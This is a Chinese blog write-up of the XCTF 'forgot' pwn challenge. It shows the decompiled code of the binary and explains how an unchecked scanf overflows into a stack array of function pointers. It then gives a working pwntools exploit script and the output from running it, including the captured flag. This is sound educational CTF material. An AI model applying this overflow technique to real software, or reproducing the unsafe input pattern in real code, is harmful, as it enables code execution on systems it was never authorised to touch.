 <!--yml
category: 未分类
date: 2022-04-26 14:33:56
-->

# forgot [XCTF-PWN][高手进阶区]CTF writeup攻防世界题解系列13_3riC5r的博客-CSDN博客

> 来源：[https://blog.csdn.net/fastergohome/article/details/103665009](https://blog.csdn.net/fastergohome/article/details/103665009)

题目地址：[forgot](https://adworld.xctf.org.cn/task/answer?type=pwn&number=2&grade=1&id=4703&page=1)

本题是高手进阶区的第二题，恭喜大家已经进入高手行列！好假好假，哈哈哈！

废话不说，看看题目先

![](img/7b86f52c2e5b8f6e2349675193b6b9fc.png)这个题目有很长的描述，但是都是废话，不去管他了。

照例下载附件，做下安全检查

```
root@mypwn:/ctf/work/python/forgot# checksec 39d012d5bbc34295855136e9662a5392 
[*] '/ctf/work/python/forgot/39d012d5bbc34295855136e9662a5392'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

好的，没有什么问题，只有启动NX。

那我们就可以先用ida反编译

![](img/2aae249ca46079f6ea3d690c37621486.png)左边的函数看起来超多，不过毛主席说过“一切敌人都是纸老虎！”，我们向着困难前进。

分析过后发现真的都是纸老虎，哈哈！😄

我挑出来两个重要函数，给大家展示一下，已经对变量函数做过重命名了。

```
int __cdecl main()
{
  size_t nIndexCurrent; // ebx
  char szInputString[32]; // [esp+10h] [ebp-74h]
  int (*ptrFunction_1)(); // [esp+30h] [ebp-54h]
  int (*ptrFunction_2)(); // [esp+34h] [ebp-50h]
  int (*ptrFunction_3)(); // [esp+38h] [ebp-4Ch]
  int (*ptrFunction_4)(); // [esp+3Ch] [ebp-48h]
  int (*ptrFunction_5)(); // [esp+40h] [ebp-44h]
  int (*ptrFunction_6)(); // [esp+44h] [ebp-40h]
  int (*ptrFunction_7)(); // [esp+48h] [ebp-3Ch]
  int (*ptrFunction_8)(); // [esp+4Ch] [ebp-38h]
  int (*ptrFunction_9)(); // [esp+50h] [ebp-34h]
  int (*ptrFunction_a)(); // [esp+54h] [ebp-30h]
  char szName; // [esp+58h] [ebp-2Ch]
  int nChoice; // [esp+78h] [ebp-Ch]
  size_t i; // [esp+7Ch] [ebp-8h]

  nChoice = 1;
  ptrFunction_1 = fun_1;
  ptrFunction_2 = fun_2;
  ptrFunction_3 = fun_3;
  ptrFunction_4 = fun_4;
  ptrFunction_5 = fun_5;
  ptrFunction_6 = fun_6;
  ptrFunction_7 = fun_7;
  ptrFunction_8 = fun_8;
  ptrFunction_9 = fun_9;
  ptrFunction_a = fun_a;
  puts("What is your name?");
  printf("> ");
  fflush(stdout);
  fgets(&szName, 32, stdin);
  welcome_message((int)&szName);
  fflush(stdout);
  printf("I should give you a pointer perhaps. Here: %x\n\n", fun_5);
  fflush(stdout);
  puts("Enter the string to be validate");
  printf("> ");
  fflush(stdout);
  __isoc99_scanf("%s", szInputString);
  for ( i = 0; ; ++i )
  {
    nIndexCurrent = i;
    if ( nIndexCurrent >= strlen(szInputString) )
      break;
    switch ( nChoice )
    {
      case 1:
        if ( is_ll_num_ul_2(szInputString[i]) )
          nChoice = 2;
        break;
      case 2:
        if ( szInputString[i] == 64 )
          nChoice = 3;
        break;
      case 3:
        if ( is_ll_num_ul(szInputString[i]) )
          nChoice = 4;
        break;
      case 4:
        if ( szInputString[i] == 46 )
          nChoice = 5;
        break;
      case 5:
        if ( is_l_letter(szInputString[i]) )
          nChoice = 6;
        break;
      case 6:
        if ( is_l_letter(szInputString[i]) )
          nChoice = 7;
        break;
      case 7:
        if ( is_l_letter(szInputString[i]) )
          nChoice = 8;
        break;
      case 8:
        if ( is_l_letter(szInputString[i]) )
          nChoice = 9;
        break;
      case 9:
        nChoice = 10;
        break;
      default:
        continue;
    }
  }
  (*(&ptrFunction_1 + --nChoice))();
  return fflush(stdout);
}

int get_flag()
{
  char s; // [esp+1Eh] [ebp-3Ah]

  snprintf(&s, 0x32u, "cat %s", "./flag");
  return system(&s);
}
```

对，你没有看错，其他的函数都没啥用处，存粹是装饰的！只有main和get_flag。

这个题目最重要的两个点就是：

1.  __isoc99_scanf("%s", szInputString);
2.  (*(&ptrFunction_1 + --nChoice))();

第一句可以溢出，第二句是执行的调用。

我先把main中的那一堆函数给大家展示一下：

```
 int (*ptrFunction_1)(); // [esp+30h] [ebp-54h]
  int (*ptrFunction_2)(); // [esp+34h] [ebp-50h]
  int (*ptrFunction_3)(); // [esp+38h] [ebp-4Ch]
  int (*ptrFunction_4)(); // [esp+3Ch] [ebp-48h]
  int (*ptrFunction_5)(); // [esp+40h] [ebp-44h]
  int (*ptrFunction_6)(); // [esp+44h] [ebp-40h]
  int (*ptrFunction_7)(); // [esp+48h] [ebp-3Ch]
  int (*ptrFunction_8)(); // [esp+4Ch] [ebp-38h]
  int (*ptrFunction_9)(); // [esp+50h] [ebp-34h]
  int (*ptrFunction_a)(); // [esp+54h] [ebp-30h]

  ptrFunction_1 = fun_1;
  ptrFunction_2 = fun_2;
  ptrFunction_3 = fun_3;
  ptrFunction_4 = fun_4;
  ptrFunction_5 = fun_5;
  ptrFunction_6 = fun_6;
  ptrFunction_7 = fun_7;
  ptrFunction_8 = fun_8;
  ptrFunction_9 = fun_9;
  ptrFunction_a = fun_a;
```

这一堆函数，组成了一个函数数组，改下大家容易看的更懂：

```
int (*ptrFunction[10]) () = {
  fun_1, fun_2, fun_3, fun_4, fun_5, fun_6, fun_7, fun_8, fun_9, fun_a
} 
```

这样的话，最后一句

```
(*(&ptrFunction_1 + --nChoice))();
```

就可以改写成

```
ptrFunction[--nChoice]();
```

所以我们只需要通过szInputString的输入溢出到ptrFunction，就可以覆盖ptrFunction的函数调用地址，覆盖的地址用get_flag的地址，就可以直接拿到flag。

所以就没问题了，接下来就先构造一下paload：

```
get_flag = 0x080486CC
payload = 'A' * 0x20 + p32(get_flag)
```

注意这里不能用小写字符a，因为程序会判断是否是小写就会改写nChoice的值，那就不会调用函数数组的第一个元素了。

所以根据payload，我们编写python代码如下：

```
#coding:utf8

from pwn import *

process_name = './39d012d5bbc34295855136e9662a5392'
p = process(process_name)
# p = remote('111.198.29.45', 39908)

get_flag = 0x080486CC
payload = 'A' * 0x20 + p32(get_flag)

p.sendlineafter('What is your name?\n> ', 'aaa')
p.sendlineafter('> ', payload)
p.interactive()
```

执行之后的结果如下：

```
root@mypwn:/ctf/work/python/forgot# python forgot.py 
[+] Starting local process './39d012d5bbc34295855136e9662a5392': pid 105
[*] Switching to interactive mode
cat: ./flag[*] Process './39d012d5bbc34295855136e9662a5392' stopped with exit code 0 (pid 105)
: No such file or directory
[*] Got EOF while reading in interactive
$ 
```

我们看到是执行成功了，已经转入到了get_flag函数中了，那我们就修改一下，发送到服务器看看情况：

```
root@mypwn:/ctf/work/python/forgot# python forgot.py 
[+] Opening connection to 111.198.29.45 on port 39908: Done
[*] Switching to interactive mode
cyberpeace{cca7a7963faa8f8b3718b2394bb18cf4}
[*] Got EOF while reading in interactive
$ 
```

好的，没有问题，已经取得了flag。

这个题目与其说是考漏洞，不如说是考c语言，主要考的知识点是函数指针数组在汇编语言中的表现形式。